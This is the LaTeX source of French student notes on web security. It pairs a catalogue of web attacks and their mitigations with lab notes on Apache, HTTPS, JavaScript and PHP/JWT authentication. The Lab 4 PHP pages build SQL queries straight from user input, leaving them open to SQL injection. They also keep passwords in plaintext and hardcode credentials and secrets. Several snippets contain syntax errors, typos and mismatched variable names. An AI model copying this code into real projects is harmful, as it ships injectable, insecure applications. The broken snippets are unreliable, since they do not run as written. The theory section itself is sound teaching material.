%% Type de document et encodage de la police
\documentclass[a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[colorlinks=true, allcolors=black]{hyperref}
% \usepackage[french]{babel}

%% Initialise la taille des pages et des marges
\usepackage[a4paper, top=3cm, bottom=3cm, left=2cm, right=2cm, marginparwidth=2cm]{geometry}

%% Packs utiles
\usepackage{amsmath}
\usepackage{graphicx}
\usepackage{textcomp}

%% Commandes perso
\renewcommand{\arraystretch}{1.2} %% row 20% longer
\renewcommand{\contentsname}{Table des matières}
\renewcommand{\partname}{Partie}

%% Pour les exemples
\usepackage{mdframed}
\newmdenv[topline=false, bottomline=false, rightline=false, skipabove=\topsep, skipbelow=\topsep]{example}
\mdfdefinestyle{attaque}{
    linecolor=red,linewidth=2pt,
    subtitlebelowline=true,subtitleaboveline=true,
    subtitlebelowlinecolor=red,subtitleabovelinecolor=red,
    frametitlerule=true,
    frametitlebackgroundcolor=gray!20,
    subtitlebackgroundcolor=gray!20,
    innertopmargin=\topskip,
}
\mdfdefinestyle{mauvaisepratique}{
    linecolor=orange,linewidth=2pt,
    subtitlebelowline=true,subtitleaboveline=true,
    subtitlebelowlinecolor=orange,subtitleabovelinecolor=orange,
    frametitlerule=true,
    frametitlebackgroundcolor=gray!20,
    subtitlebackgroundcolor=gray!20,
    innertopmargin=\topskip,
}
\mdfdefinestyle{bonnepratique}{
    linecolor=blue,linewidth=2pt,
    subtitlebelowline=true,subtitleaboveline=true,
    subtitlebelowlinecolor=blue,subtitleabovelinecolor=blue,
    frametitlerule=true,
    frametitlebackgroundcolor=gray!20,
    subtitlebackgroundcolor=gray!20,
    innertopmargin=\topskip,
}
\mdtheorem[style=attaque]{attaque}{Attaque}
\mdtheorem[style=mauvaisepratique]{mauvaisepratique}{Mauvaise pratique}
\mdtheorem[style=bonnepratique]{bonnepratique}{Bonne pratique}

%% Pour les diagrammes
\usepackage{tikz}
\tikzstyle{incolore} = [rectangle, rounded corners, draw=black, minimum height=1cm, minimum width=3cm, text width=3cm, text centered]

%% Pour le code
\usepackage{xcolor}
\usepackage{listings}

\definecolor{dkgreen}{rgb}{0,.6,0}
\definecolor{dkblue}{rgb}{0,0,.6}
\definecolor{dkyellow}{cmyk}{0,0,.8,.3}
\definecolor{codepurple}{HTML}{C42043}
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}

\lstdefinestyle{php}{
    language        = php,
    basicstyle      = \small\ttfamily,
    keywordstyle    = \color{dkblue},
    stringstyle     = \color{red},
    identifierstyle = \color{dkgreen},
    commentstyle    = \color{gray},
    emph            =[1]{php},
    emphstyle       =[1]\color{orange},
    emph            =[2]{if,else},
    emphstyle       =[2]\color{dkyellow},
    keepspaces=true,
    numbers=left,
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    frame=single,
}

\lstdefinestyle{sql}{
    language=sql,
    basicstyle      = \small\ttfamily,
    commentstyle    = \color{codegreen},
    keywordstyle    = \color{codepurple},
    stringstyle     = \color{codepurple},
    keepspaces=true,
    numbers=left,
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    frame=single,
}

\lstdefinelanguage{javascript}{
    morekeywords=[1]{break, continue, delete, else, for, function, if, in,
        new, return, this, typeof, var, void, while, with},
    morekeywords=[2]{false, null, true, boolean, number, undefined,
        Array, Boolean, Date, Math, Number, String, Object},
    morekeywords=[3]{eval, parseInt, parseFloat, escape, unescape},
    sensitive,
    morecomment=[s]{/*}{*/},
    morecomment=[l]//,
    morecomment=[s]{/**}{*/},
    morestring=[b]',
    morestring=[b]"
}[keywords, comments, strings]

\definecolor{mediumgray}{rgb}{0.3, 0.4, 0.4}
\definecolor{mediumblue}{rgb}{0.0, 0.0, 0.8}
\definecolor{darkviolet}{rgb}{0.58, 0.0, 0.83}
\definecolor{royalblue}{rgb}{0.25, 0.41, 0.88}
\definecolor{crimson}{rgb}{0.86, 0.8, 0.24}

\lstdefinestyle{JSES6Base}{
    backgroundcolor=\color{white},
    basicstyle=\small\ttfamily,
    breakatwhitespace=false,
    breaklines=false,
    commentstyle=\color{mediumgray}\upshape,
    emph={},
    emphstyle=\color{crimson},
    extendedchars=true,  % requires inputenc
    fontadjust=true,
    frame=single,
    identifierstyle=\color{black},
    keepspaces=true,
    keywordstyle=\color{mediumblue},
    keywordstyle={[2]\color{darkviolet}},
    keywordstyle={[3]\color{royalblue}},
    numbers=left,
    rulecolor=\color{black},
    showlines=true,
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    stringstyle=\color{dkgreen},
    tabsize=2,
    title=\lstname,
    upquote=true  % requires textcomp
}

\lstdefinestyle{JavaScript}{
  language=JavaScript,
  style=JSES6Base
}


\title{Sécurité WEB}
\author{Grégoire Roumache}
\date{Mars 2021}

\begin{document}

\maketitle





















\part{Théorie}















\section{Login/mdp}





\begin{attaque}[Brute force guessing (essayer toutes les possibilités)]
    Mot de passe = suite de caractères, donc un attaquant peut automatiser le test de tous les mots de passes possibles pour un login donné.
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item Informer/forcer l’utilisateur pour avoir un mdp impossible à deviner en pratique
        \item Empêcher le test de mot de passe à répétition (delay ou captcha)
    \end{itemize}
\end{attaque}

\begin{attaque}[Dictionnary guessing/Password spraying]
    L'attaquant teste une liste de mdp courants pour un login donné (dictionnary) ou un mot de passe courant contre une liste de logins (spraying).
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item Empêcher les mots de passe faibles
        \item Informer l’utilisateur de la faiblesse
        \item Informer sur ce qui constitue un mot de passe fort
    \end{itemize}
\end{attaque}

\begin{attaque}[Credentials stuffing]
    Un attaquant teste sur différents sites, des credentials récupérés ailleurs (parce que les utilisateurs utilisent les mêmes credentials sur plusieurs sites).
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item Informer l’utilisateur
        \item Faciliter la rétention du mot de passe
        \item Inciter à l’utilisation d’un gestionnaire de mots de passe
    \end{itemize}
\end{attaque}















\section{Session}





\begin{attaque}[Session prediction]
    Un attaquant capable de prédire un ID de session ou d’en trouver un valide peut avoir accès à la session.
    \mdfsubtitle{Mitigation}
    Choisir un ID de session aléatoire parmi un grand nombre de possibilités.
\end{attaque}

\begin{attaque}[Session side-jacking]
    L'échange non-chiffré d’un moyen d’identification (password, sessionID, token) peut être intercepté par une attaque MITM, ce qui donne à l’attaquant l’accès à la session.
    \mdfsubtitle{Mitigation}
    Ce genre d’échange doit toujours se faire au moyen d’un protocole sécurisé tel que HTTPS.
\end{attaque}

\begin{mauvaisepratique}[Unrevokable JWT]
    Afin de rendre le service stateless, toutes les informations de session sont stockées dans un JWT. Ceci entraine l’impossibilité d’invalidation de session.
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item Ajouter un TTL au JWT comme le champ exp (solution imparfaite)
        \item Conserver un état de session sur le serveur...
        \item \textcolor{blue}{\textbf{(ajout perso - faire une black-list des jetons invalides - voir challenge root-me)}}
    \end{itemize}
\end{mauvaisepratique}

\begin{attaque}[Session fixation]
    Consiste à forcer la victime à utiliser un ID de session valide déjà connu.
    \begin{enumerate}
        \item L’attaquant crée une session valide et reçoit un ID
        \item L’attaquant force la victime à s’identifier sur le site avec cet ID
        \item L’attaquant peut utiliser l’ID qui est maintenant celui de la victime
    \end{enumerate}
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item ID rotation
        \item ID invalidation
        \item Vérification des méta-données (referer, IP, user-agent, ...)
    \end{itemize}
\end{attaque}

\begin{mauvaisepratique}[Session poisoning]
    L’utilisation de variables globales pour sauvegarder l’état de session a lieu de manière imprudente.
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item Assainir les entrées de l’utilisateur
        \item Restreindre l’accès aux variables de session
    \end{itemize}
\end{mauvaisepratique}

\begin{bonnepratique}[Session ID rotation]
    La rotation/regénération d’ID de session consiste à changer d’ID de session:
    \begin{itemize}
        \item à l’authentification - l'ancien ID de session anonyme est abandonné et remplacé
        \item à chaque nouvelle requête - même principe mais on change l’ID de session à chaque requête
    \end{itemize}
\end{bonnepratique}

\begin{bonnepratique}[Session invalidation]
    La session est détruite et l’ID de session devient invalide quand:
    \begin{itemize}
        \item l’utilisateur utilise une fonction de déconnexion
        \item un certain temps d’inactivité est constaté
        \item un certain temps s’est écoulé (côté serveur, pas en faisant expirer les cookies)
    \end{itemize}
\end{bonnepratique}















\section{Contrôle d'accès}





\begin{mauvaisepratique}[Missing function level access control]
    Aucun contrôle d’accès n’est effectué lors d’un accès direct à une ressource/fonction.
    \mdfsubtitle{Mitigation}
    Vérifier l’autorisation pendant l’action d’accès à la ressource
\end{mauvaisepratique}

\begin{mauvaisepratique}[Insecure direct object reference]
    Aucun contrôle d’accès n’est effectué lors d’un accès direct à un objet.
    \mdfsubtitle{Mitigation}
    Vérifier l’autorisation pendant l’action d’accès à l’objet.
\end{mauvaisepratique}

\begin{attaque}[Captcha bypass]
    Quand il est possible de contourner un captcha ou de simuler une réponse humaine.
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item Utiliser un système de captcha le plus récent possible
        \item S’assurer que la requête qui va suivre n’aboutira qu’en cas de test réussi. (Function level access control)
    \end{itemize}
\end{attaque}

\begin{attaque}[Client-side validation only]
    Valider uniquement les entrées de l’utilisateur côté client.
    \mdfsubtitle{Mitigation}
    Toujours valider les données reçues de l’utilisateur côté serveur
\end{attaque}

\begin{attaque}[Referer authentication/authorisation]
    Utilisation des informations du header Referer comme moyen d’accès ou de permissions.
    \mdfsubtitle{Mitigation}
    Ne jamais utiliser ce header pour l’authentification. Il peut être éventuellement utilisé comme condition restrictive supplémentaire.
\end{attaque}

\begin{attaque}[CORS misconfiguration]
    La mauvaise configuration/génération des headers du CORS, en particulier Access-Control-Allow-Origin permet à des origines tierces d’accéder à des ressources qui devraient êtres restreintes.
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Whitelisting du header Origin, vérifier toute la string
        \item Vérifier les regex ou s’en passer
        \item Ne pas autoriser les origines permettant l’user input de JS, ou des sous-domaines d’hébergement
    \end{itemize}
\end{attaque}

\newpage

\begin{attaque}[File inclusion]
    Inclusion (et donc exécution) d’un fichier choisi par l’attaquant.
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Assainir les entrées
        \item Référence indirecte aux objets (et donc whitelist)
        \item Ne pas construire de path à partir d’une entrée d’utilisateur
    \end{itemize}
\end{attaque}















\section{Injection}





\begin{attaque}[SQL Injection]
    Création de requêtes SQL à partir de données fournies par l’utilisateur.
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item Utiliser des requêtes préparées (MySQLi, PDO, ...)
        \item Utiliser des procédures stockées
        \item Whitelist des entrées (noms de tables, de colonnes, ...)
        \item Assainir les entrées de l’utilisateur
        \item Controler les résultats (LIMIT)
    \end{itemize}
\end{attaque}

\begin{attaque}[Command injection]
    Création de commandes shell à partir de données fournies par l’utilisateur.
    \mdfsubtitle{Mitigation}
    Assainir les entrées
\end{attaque}

\begin{attaque}[Code injection]
    Utilisation des entrées de l’utilisateur pour générer du code à exécuter.
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item Assainir les entrées
        \item Ne jamais utiliser \texttt{eval()} et consort !!
    \end{itemize}
\end{attaque}

\begin{attaque}[Null byte injection]
    Utilisation d’un byte null dans une chaine de caractère passée en paramètre.
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Assainir les entrées
        \item Refuser un path contenant un byte null
    \end{itemize}
\end{attaque}

\begin{attaque}[CSS injection]
    Possibilité pour l’attaquant de modifier les règles de style.
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Ne pas permettre l’utilisation de CSS défini par l’utilisateur
        \item Utilisation d’une whitelist des fichiers CSS autorisés
    \end{itemize}
\end{attaque}

\begin{attaque}[XXE injection]
    Injection de XML malveillant sur le serveur.
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Si possible, ne pas utiliser XML, préférer JSON ou YAML
        \item Désactiver le DTD (Document Type Definition)
        \item Mettre à jour et configurer correctement tout parser XML
    \end{itemize}
\end{attaque}

\begin{attaque}[src attribute]
    Utilisation erronée de l’attribut "src" ou avec un input de l’utilisateur (ex: <img src=... />).
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Proscrire la méthode GET pour modifier l’état. Utiliser POST.
        \item Si l’attribut "src" provient de l’utilisateur -> assainir (injection).
    \end{itemize}
\end{attaque}

\begin{attaque}[Insecure deserialization]
    Quand l’attaquant peut manipuler un élément sérialisé.
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item Chiffrage ou signature de l’élément sérialisé, comme JWT
        \item Refuser les éléments sérialisés provenant de sources non fiables
        \item Environnement isolé pour la désérialisation
    \end{itemize}
\end{attaque}















\section{Cross-site}





\begin{attaque}[CSRF]
    Requête malicieuse d’un attaquant vers un site tiers pour lequel la victime possède une session active (CSRF = cross site request forgery).
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Utilisation d’un token anti-CSRF : champ caché fourni par la page/formulaire devant être renvoyé
        \item Vérifier les headers Referer, Origin contre une white list
        \item Confirmation de l’utilisateur pour les actions critiques : signature, mot de passe, ...
        \item Double cookie : cookie aléatoire et en paramètre de requête
    \end{itemize}
\end{attaque}

\begin{attaque}[Cross-site cooking]
    Les navigateurs permettent à un site de créer des cookies pour leurs sous-domaines (evil.site.com => cookie = *.site.com, permet d'attaquer les sous-domaines d'un site)
    \mdfsubtitle{Mitigation}
    Vérifier que le header Host corresponde au serveur.
\end{attaque}

\begin{attaque}[Cross-site scripting]
    Modification de l’apparence, du comportement, du contenu d’une
    ressource via l’injection de code interprétable par le navigateur.
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Ne pas insérer d’entrées d’utilisateur dans la page
        \item Assainir/échapper/encoder les entrées d’utilisateur
        \item Utiliser des headers tels Content-Security-Policy, X-XSS-Protection
    \end{itemize}
\end{attaque}















\section{Autre}





\begin{attaque}[Lien malicieux (<a>, email, ...)]
    Dans le contexte d’un navigateur, un simple requête pour un page peut entrainer d’autres requêtes, malicieuses. Toujours s’assurer de la fiabilité de la page demandée.
\end{attaque}

\begin{attaque}[Using Components with Known Vulnerabilities]
    Utilisation de composants (librairies, frameworks, paquets...) vulnérables.
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Inventaire, monitoring et plan de màj de tous les composants
        \item Obtention via des sources officielles
        \item Désactivation de tout ce qui est inutile
    \end{itemize}
\end{attaque}

\begin{bonnepratique}[User-Agent spoofing]
    Si les questions de "privacy" vous interpellent ou si un site prétend que votre navigateur n’est pas compatible, n’hésitez pas à forger le header User-Agent voire à le supprimer complètement.
\end{bonnepratique}

\begin{attaque}[Unvalidated redirects and forwards]
    Redirection/renvoi par le site vers une page autre que celle demandée.
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Si possible éviter les redirections/renvois
        \item Si inévitable, éviter l’utilisation de paramètres
        \item Vérifier l’adresse de redirection contre une white list
    \end{itemize}
\end{attaque}

\begin{mauvaisepratique}[Sensitive client caching]
    Utilisation du caching sur des données sensibles.
    \mdfsubtitle{Mitigation}
    Utilisation du header Cache-Control (no-cache ou must-revalidate)
\end{mauvaisepratique}

\begin{attaque}[Directory traversal]
    L’application permet l’accès à des fichiers de manière arbitraire.
    \mdfsubtitle{Mitigations}
    \begin{itemize}
        \item Whitelist de valeurs si possible
        \item Assainir les entrées de l’utilisateur
        \item Moindre privilège et compartimentation (jailing)
        \item Vérifier que le path absolu se trouve à la racine du site
        \item Configurer correctement le serveur Web (DocumentRoot)
    \end{itemize}
\end{attaque}

\begin{attaque}[Unrestricted file upload]
    Upload de fichiers exécutables, d’entrée à un exécutable, malveillants ou
    aux méta-données dangereuses pour le système.
    \mdfsubtitle{Mitigation}
    \begin{itemize}
        \item Whitelist pour l’extension de fichier (qui n’est PAS suffisante !)
        \item Vérification du header Content-Type (qui n’est PAS suffisant !)
        \item Changer le nom de fichier, certains noms pourraient être illégaux
        \item Limiter la taille
        \item Stockage à part de l’application
        \item Éviter les archives si possible
        \item Permissions : non-exécutable (\texttt{chmod -x})
        \item Validation du contenu
    \end{itemize}
\end{attaque}




















\newpage \part{Labos}





















\section{Labo 1 -- Stack LAMP}





\begin{itemize}


\item LAMP = linux, apache, mysql, php


\item Installation (sur ubuntu):
\begin{itemize}
    \item \texttt{sudo apt update -y \&\& sudo apt upgrade -y \&\& sudo apt autoremove -y}
    \item \texttt{sudo apt install apache2 mysql-server php  libapache2-mod-php php-mysql}
    \item \texttt{sudo apt install phpmyadmin}
\end{itemize}
\textbf{Remarque}: c'est plus facile de programmer sur la kali et copier les trucs dans le terminal avec une connexion ssh à la machine ubuntu.


\item Créer un utilisateur pour phpmyadmin: \texttt{sudo mysql -u root}
\begin{lstlisting}[style=sql]
CREATE DATABASE 'gregdatabase';
CREATE USER 'greg'@localhost IDENTIFIED BY 'tttttt';
GRANT ALL PRIVILEGES ON *.* TO 'greg'@localhost IDENTIFIED BY 'password';
FLUSH PRIVILEGES;
\end{lstlisting}


\item Créer un objet en php:
\begin{lstlisting}[style=php]
class Ville {
	public $name;
	public $population;
	public $province;
	public $langue;

	public function __construct($name, $population, $province, $langue) {
		$this->name = $name;
		$this->population = $population;
		$this->province = $province;
		$this->langue = $langue;
	}
}
\end{lstlisting}


\item Inclure cette classe et l'instancier:
\begin{lstlisting}[style=php]
include('ville.classe.php');

$villes = array(
	new Ville("Huy", 35000, "Liege", "fr"),
	new Ville("Namur", 110000, "Namur", "fr"),
	new Ville("Bruxelles", 1200000, "Brabant", "fr"),
	new Ville("Antwerpen", 520000, "Antwerpen", "nl"),
	new Ville("Liege", 200000, "Liege", "fr"),
	new Ville("Gent", 260000, "Oost-Vlaanderen", "nl"),
);

$key = array_rand($villes, 1);
$ville = $villes[$key];

echo $ville->name;
\end{lstlisting}


\item Récupérer des paramètres dans cette url: \texttt{http://<ip>/<page>?var1=10\&var2=20}
\begin{lstlisting}[style=php]
$var1 = $_GET["var1"] ;
$var2 = $_GET["var2"] ;
echo $var1 ;    // 10
echo $var2 ;    // 20
\end{lstlisting}


\end{itemize}















\section{Labo 2 -- HTTPS \& HTTP/2}





\begin{itemize}


\item Modifier le serveur pour activer HTTP/2:
\begin{itemize}
    \item \texttt{sudo apt update -y \&\& sudo apt upgrade -y \&\& sudo apt autoremove -y}
    \item \texttt{sudo apt install php7.2-fpm php7.4-curl}
    \item \texttt{sudo a2enmod proxy\_fcgi setenvif mpm\_event http2 headers}
    \item \texttt{sudo a2dismod php7.2 mpm\_prefork}
    \item \texttt{sudo a2enconf php7.2-fpm}
    \item \texttt{sudo systemctl restart php7.2-fpm}
\end{itemize}


\item Modifier la config d'un site pour activer HTTP/2:
\begin{example} \begin{verbatim}
<VirtualHost *:80>
    // ...
    Protocols h2c
    H2Push on

    <Location /index.html>
        Header add Link "</push.css>;rel=preload"
        H2PushResource /push.css
    </Location>
    // ...
</VirtualHost>
\end{verbatim} \end{example}
\textbf{Remarque}: les fichiers utilisés par le site web sont fournis avec l'énoncé.


\item Générer une clé privée et un certificat:
\begin{example} \begin{itemize}
    \item \texttt{sudo openssl req -x509 -nodes -days 365 -newkay rsa:2048 $\backslash$} \\
    \texttt{-keyout /etc/ssl/private/apache-selfsigned.key $\backslash$} \\
    \texttt{-out /etc/ssl/certs/apache-selfsigned.crt}
    \item \texttt{openssl x509 -text -noout -in apache-selfsigned.crt}
\end{itemize} \end{example}
\textbf{Remarque}: donner l'ip du serveur quand la génération du certificat demande le \textit{common name}.


\item Modifier le serveur pour activer HTTPS: \texttt{sudo apt a2enmod ssl socache\_shmcb rewrite headers}


\item Modifier la configuration d'un site pour activer HTTPS:
\begin{example} \begin{verbatim}
<VirtualHost *:80>
    RewriteEngine on
    RewriteRule ^(.*)$ https://%{HTTP_HOST}$1 [R=301,L]
</VirtualHost>

<VirtualHost *:443>
    SSLEngine on
    SSLCertificateFile      /etc/ssl/certs/apache-selfsigned.crt
    SSLCertificateKeyFile   /etc/ssl/private/apache-selfsigned.key

    Protocols h2 http/1.1   # active le http2 si possible

    # HTTP Strict Transport Security
    (63072000 seconds)
    Header always set Strict-Transport-Security
</VirtualHost>

SSLProtocol         all -SSLv3 -TLSv1 -TLSv1.1 -TLSv1.2
SSLHonorCipherOrder off
SSLSessionTickets   off
SSLUseStapling      on
SSLStaplingCache    "shmcb:logs/ssl\_stapling(32768)"
\end{verbatim} \end{example}
Rôle de certaines lignes:
\begin{example} \begin{itemize}
    \item \texttt{RewriteRule} = règle de redirection vers la même page mais en https au lieu de http
    \item \texttt{Header always set Strict-Transport-Security} = ajoute un header indiquant que le site n'est accessible qu'en https
    \item \texttt{SSLHonorCipherOrder} = désactivé par défaut, c'est le client qui choisi l'algorithme de chiffrement (si activé, c'est le serveur qui choisi)
    \item \texttt{SSLSessionTickets} = désactive les tickets de session SSL (changement régulier de la clé de chiffrement)
    \item \texttt{SSLUseStapling} = ajoute la preuve que le certificat est bon (donc pas besoin d'aller vérifier avec la certificate authority)
\end{itemize} \end{example}


\end{itemize}















\section{Labo 3 -- Javascript}





\begin{itemize}


\item Cacher/Montrer un élément en cliquant sur un bouton:
\begin{lstlisting}[style=javascript]
<p id="hello"> hello </p>
<input id="btn" type="button" value="Cacher" onclick="cacher_hello()"/>
<script>
    function cacher_hello() {
        var hello = document.getElementById("hello");
        var btn   = document.getElementById("btn");

        if (btn.value == "Cacher") {
            btn.value = "Montrer";
            hello.hidden = true;
        } else {
            btn.value = "Cacher";
            hello.hidden = false;
        }
    }
</script>
\end{lstlisting}


\item Écrire un script qui vérifie si les caractères dans un input sont alphanumériques. Sinon, afficher un message d'erreur.
\begin{lstlisting}[style=javascript]
<input id="input" type="password" onkeyup="check_input()" />
<p id="error" style="color: red;" hidden> Input not alphanumeric! </p>
<script>
    function is_alpha_numeric(str) {
        var code, i, len;
        for (i = 0, len = str.length; i < len; i++) {
            code = str.charCodeAt(i);
            if (!(code > 47 && code < 58) &&  // numeric (0-9)
                !(code > 64 && code < 91) &&  // upper alpha (A-Z)
                !(code > 96 && code < 123)) { // lower alpha (a-z)
                return false;
            }
        }
        return true;
    };

    function check_input() {
        var input = document.getElementById("input");
        var error = document.getElementById("error");
        error.hidden = is_alpha_numeric(input.value);
    }
</script>
\end{lstlisting}


\item Utiliser ajax:
\begin{lstlisting}[style=javascript]
let url = 'http://<ip>/<page>/';
let xhr = new XMLHttpRequest();     // 1. instantiate the object
xhr.open('GET', url);               // 2. configure the object
xhr.send();                         // 3. send the request
xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        // the response is in : this.responseText
    }
}
\end{lstlisting}


\item Utiliser jquery pour cacher/montrer un élément en cliquant sur un bouton:
\begin{lstlisting}[style=javascript]
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js">
</script>

<p id="msg"> Hello folks </p>
<input id="btn" type="button" value="Montrer/Cacher" />

<script>
    $(document).ready(function(){
        $("#btn").click(function(){
            $("#msg").toggle();
        })
    });
</script>
\end{lstlisting}


\end{itemize}















\section{Labo 4 -- Authentification session \& token}





\begin{itemize}


\item Base de données: \texttt{sudo mysql -u root}
\begin{lstlisting}[style=sql]
CREATE DATABASE 'gregdatabase';
-- add a user so that the php program can connect to the database
CREATE USER 'greg'@localhost IDENTIFIED BY 'tttttt';
GRANT ALL PRIVILEGES ON *.* TO 'greg'@localhost IDENTIFIED BY 'password';
FLUSH PRIVILEGES;
USE gregdatabase;
CREATE TABLE user (
    id INT(6) UNSIGNED AUTO_INCREMENT PRIMARY KEY,
    firstname VARCHAR(30) NOT NULL,
    password VARCHAR(30) NOT NULL,
    email VARCHAR(256) NULL,
);
INSERT INTO user (firstname, password, email)
    VALUES ('greg', 'tttttt', 'greg@example.com');
\end{lstlisting}


\item Page \texttt{home.php}:
\begin{lstlisting}[style=php]
<h1> Hello ^_^ </h1>
<?php
    $servername = "localhost";
    $username = "greg";
    $password = "tttttt";
    $dbname = "gregdatabase";

    // Check session
    if ( !isset($_SESSION["connected"]) ) {
        header("location: login.php");
        exit();
    }

    // Create connection
    $conn = mysqli_connect($servername, $username, $password, $dbname);

    // Get the data
    $firstname = $_SESSION['connected'];
    $sql = "SELECT firstname, password FROM user
            WHERE firstname='$firstname';";
    $result = mysqli_query($conn, $sql);

    // Output the data
    $data $result->fetch_assoc()[0]
    echo "id = $data['id'], firstname = $data['firstname'],"
               . "email = $data['email']";
?>
\end{lstlisting}


\item Page \texttt{login.php}:
\begin{lstlisting}[style=php]
<h1> Hello ^_^ </h1>
<form method="POST">
    <label><b>Firstname</b></label><br>
    <input type="text" name="firstname" required><br>
    <label><b>Password</b></label><br>
    <input type="password" name="password" required><br>
    <input type="submit" value="Submit">
</form>

<?php
    if ($_SERVER["REQUEST_METHOD"] != "POST") { exit(); }

    $servername = "localhost";
    $username = "greg";
    $password = "tttttt";
    $dbname = "gregdatabase";

    // Create connection
    $conn = mysqli_connect($servername, $username, $password, $dbname);

    // Get the data
    $firstname = $_POST['firstname'];
    $password = $_POST['password'];
    $sql = "SELECT firstname, password FROM user
            WHERE firstname='$firstname' AND password='$password';";
    $result = mysqli_query($conn, $sql);

    // Connection and redirect
    if ($result->num_rows > 0) {
        $_SESSION["connected"] = $firstname;
        header("location: home.php");
        exit();
    }
?>
\end{lstlisting}


\item Hashage \& vérification de mots de passe:
\begin{itemize}
    \item \texttt{\$hash = password\_hash(\$password, PASSWORD\_DEFAULT);}
    \item \texttt{\$everything\_is\_okay = password\_verify(\$mypassword, \$hash);}
\end{itemize}


\item Installation librairie php-jwt:
\begin{itemize}
    \item \texttt{sudo apt install composer}
    \item \texttt{composer require firebase/php-jwt}
\end{itemize}


\item Création de jwt:
\begin{lstlisting}[style=php]
<?php
    require __DIR__ . "/vendor/autoload.php";
    use \Firebase\JWT\JWT;

    $payload = array(
        "msg" => "Congrats !! You've made a JWT !! ^_^",
        "id"  => $_GET["id"],
        "iat" => time()
    );

    $secret_key = "This is my secret key";
    $jwt = JWT::encode($payload, $secret_key);

    echo $jwt;                          // html
    setcookie("jwt", $jwt, 3600 * 24);  // cookie
?>
\end{lstlisting}


\item Vérification de jwt:
\begin{lstlisting}[style=php]
<?php
    require __DIR__ . "/vendor/autoload.php";
    use \Firebase\JWT\JWT;

    if (! isset($_COOKIE["jwt"])) {
        echo "<p> Go to '/get-jwt.php' to get a jwt in your cookies </p>";
        exit();
    }

    $secret_key = "This is my secret key";
    $jwt = $_COOKIE["jwt"];
    $data = JWT::decode($jwt, $secret_key, array("HS256"));

    echo "<b>jwt = </b><p>" . $jwt . "<p>";
    echo "<b>data = </b><pre>"; echo print_r($data); echo "<pre>";
    // NOTE: somehow, I have to use 3 echo for this array to print correctly
?>
\end{lstlisting}


\end{itemize}
\begin{center} 
\includegraphics[width=0.99\linewidth]{images/jwt-01.PNG} \end{center}

















\section{Labo 5 -- Config Apache \& PHP}





\begin{itemize}


\item Comment j'ai purgé apache avant de le réinstaller:
\begin{example}
    \texttt{sudo apt purge apache2 apache2-utils apache2-bin apache2.2-common}
\end{example}


\item Modifiez la configuration d’Apache pour ne plus afficher la version d'apache.
\begin{example}

Modifier la config sécu: \texttt{sudo nano /etc/apache2/conf-enabled/security.conf}
\begin{example} \begin{verbatim}
ServerTokens Prod   # header => "Server: Apache"
ServerSignature Off # pg 404 => /
\end{verbatim} \end{example}

\end{example}


